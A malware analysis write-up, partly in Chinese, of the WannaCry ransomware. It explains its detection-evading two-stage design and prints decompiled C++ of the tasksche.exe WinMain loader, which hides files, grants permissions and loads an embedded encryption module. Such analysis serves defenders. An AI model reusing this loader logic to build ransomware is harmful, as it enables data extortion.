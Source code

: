 # Wannacry in-depth analysis #

The WannaCry ransomware attack is an ongoing worldwide cyberattack by the WannaCry ransomware cryptoworm, which targets computers running the Microsoft Windows operating system by encrypting data and demanding ransom payments in the Bitcoin cryptocurrency.

The attack started on Friday, 12 May 2017, and within a day was reported to have infected more than 230,000 computers in over 150 countries. Parts of Britain's National Health Service (NHS), Spain's Telefónica, FedEx and Deutsche Bahn were hit, along with many other countries and companies worldwide.

作为一名安全行业工作者，我对WannaCry进行了深度的分析。 完整的分析可以帮助安全行业工作者了解黑客的的最新攻击手段，为防护领域的解决方案提供有价值的信息，更进一步尝试发现软件弱点，为客户提供有价值的数据恢复服务。

下面我将开始对我这2天分析的结果做一个全面的回顾。

我之前对CryptXXX，Cerber以及Locky这几种高热点勒索软件进行过深入分析，Wannacry这款勒索软件显然吸取了之前勒索软件的设计经验，并进化升级出了一个二阶段攻击方法。 什么是二阶段攻击呢？简单来讲，就是恶意程序本身并没有攻击行为，比如Wannacry程序自身并不做数据加密的工作，它会将真正具有攻击行为的代码动态释放出来，将数据加密的行为隐藏到释放出来的代码中。 这听起来很想壳的行为，比如Locky就是一款带壳的勒索软件，它运行起来后会通过壳代码释放恶意代码。 但壳代码本身也是一个很明显的特征，比如加过壳的代码无法进行反汇编，并且一般情况下信息熵很高，很多防护软件会对这种程序提高危险等级，用户一旦碰到，或者这种程序一旦Drop到用户的机器上就会被Detect到。 但是Wannacry不同，它的第一阶段程序完全没有任何壳代码，EntryPoint也没有做任何的定制，没有任何认为修改的痕迹，也许这也是Wannacry会在利用微软漏洞大规模被传播到Endpoint上没有被发现的原因吧。


**tasksche** 

Wannacry的主程序会被修改会**tasksche.exe**，起这个名字的目的是为了迷惑用户。 下面我们来一起来分析一下这个程序，从WinMain函数开始。


> 为了容易说明程序的行为，以下的代码片段将全部使用C++语言来表述，除非碰到C++表达混乱或者因编译器优化等原因导致C++无法表达的情况下，会采用汇编语言并加详细说明。

	```C++
	int __stdcall WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
	{
	  char **argv; // eax@2
	  void *lpPEFile; // eax@10
	  CPeBuilder *pPeBuilder; // eax@11
	  void (__stdcall *fpTaskStart)(_DWORD, _DWORD); // eax@12
	  CProgram Program; // [sp+10h] [bp-6E4h]@9
	  char szModuleFileName[520]; // [sp+4E8h] [bp-20Ch]@1
	  int nFileSize; // [sp+6F0h] [bp-4h]@10
	
	  szModuleFileName[0] = szSelfName;
	  memset(&szModuleFileName[1], 0, 516u);
	  *&szModuleFileName[517] = 0;
	  szModuleFileName[519] = 0;
	  GetModuleFileNameA(0, szModuleFileName, 520u);
	  CreateRandomSequence(szServiceName);
	  if ( *_p___argc() != 2
	    || (argv = _p___argv(), strcmp(*(*argv + 1), aI))
	    || !CreateHiddenData(0)
	    || (CopyFileA(szModuleFileName, FileName, 0), GetFileAttributesA(FileName) == INVALID_FILE_ATTRIBUTES)
	    || !StartMalware() )
	  {
	    if ( strrchr(szModuleFileName, '\\') )
	      *strrchr(szModuleFileName, '\\') = 0;
	    SetCurrentDirectoryA(szModuleFileName);
	    WriteRegistery(1);
	    ExtractFromResource(0, WNcry);
	    ModifyOneByte();
	    StartProcess(CommandLine, 0, 0);            // attrib +h : Sets the hidden file attribute.
	    StartProcess(aIcacls_GrantEv, 0, 0);
	    if ( InitKernel32Funcs() )
	    {
	      CProgram::ctor(&Program);
	      if ( CProgram::Initialize(&Program, 0, 0, 0) )
	      {
	        nFileSize = 0;
	        lpPEFile = CProgram::GetPeFile(&Program, aT_wnry, &nFileSize);
	        if ( lpPEFile )
	        {
	          pPeBuilder = WncryLoadPE(lpPEFile, nFileSize);
	          if ( pPeBuilder )
	          {
	            fpTaskStart = WncrySeek2TaskStart(pPeBuilder, szTaskStart);
	            if ( fpTaskStart )
	              fpTaskStart(0, 0);
	          }
	        }
	      }
	      CProgram::dtor_0(&Program);
	    }
	  }
	  return 0;
	}
	```

